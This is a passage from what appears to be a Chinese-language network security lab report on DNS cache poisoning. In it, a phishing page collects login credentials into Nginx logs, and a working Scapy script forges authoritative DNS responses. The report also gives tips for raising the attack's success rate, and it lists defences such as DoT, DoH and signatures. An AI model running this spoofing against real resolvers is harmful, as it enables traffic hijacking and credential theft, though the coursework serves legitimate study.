 将日志输出到指定文件：

![image-20240530193010162](./assets/image-20240530193010162.png)

最后重启Nginx使配置生效。

### 8.验证钓鱼效果

​    正常用户用浏览器访问dnslab.imool.net，填写账号(team40)和密码(123456)后点击登录。随后在攻击者主机上打印Nginx日志文件，可以发现用户填写的隐私信息：

![image-20240530193024527](./assets/image-20240530193024527.png) 

### 9.思考

**（1）如何验证攻击者构造的DNS响应报文是正确的？**

​    可以在攻击者主机上模拟本地域名服务器向权威域名服务器查询的过程，回复响应报文，看系统是否会接受伪造的报文。具体方法是攻击者使用dig @39.107.126.48 dnslab.imool.net命令向权威域名服务器发起DNS查询，与此同时监听网络数据包，给自己回复对应的DNS响应报文：

```python
def sniff_callback(pkt: Packet):
    if pkt.haslayer(DNS) and pkt[DNS].qr == 0:
        if str(pkt[DNS].qd.qname).__contains__(victim_subdomain):
            fake_rr = DNSRR(rrname=victim_subdomain,
                            type="A", ttl=600, rdata=fake_ip)
            dns_layer = DNS(id=pkt[DNS].id, qr=1, aa=1,
                            qd=DNSQR(qname=victim_subdomain),
                            ancount=1, an=fake_rr)
            ip_layer = IP(src=authoritative_ip, dst=pkt[IP].src)
            udp_layer = UDP(sport=pkt[UDP].dport, dport=pkt[UDP].sport)
            packet = ip_layer / udp_layer / dns_layer
            send(packet, iface="eth0")

sniff(filter="udp", prn=sniff_callback)
```

 观察到域名对应的IP地址是192.168.3.40，说明系统接受了伪造数据包，响应报文是正确的。

**（2）怎样提高DNS缓存污染攻击的成功率？**

​    提高成功率的办法可能有提高发送数据包的速度、在更接近本地域名服务器的地方发送数据包，使DNS响应报文能更快到达本地域名服务器。或者分析域名服务器软件潜在的漏洞，如源端口号和TXID是否随机性不足或具有一定规律，针对特定软件进行攻击。

**（2）怎样防范DNS缓存污染攻击？**

​    防范措施有使用安全的域名协议，如DoT(DNS over TLS)、DoH(DNS over HTTPS)等，这些协议使用安全运输层协议，能有效避免攻击者查看或篡改DNS查询的内容。还可以使用数字签名技术，客户端通过检查签名和内容是否一致来决定是否接受响应内容，从而避免攻击者伪造域名-IP对应关系。 

## 实验2：DNS拒绝服务攻击
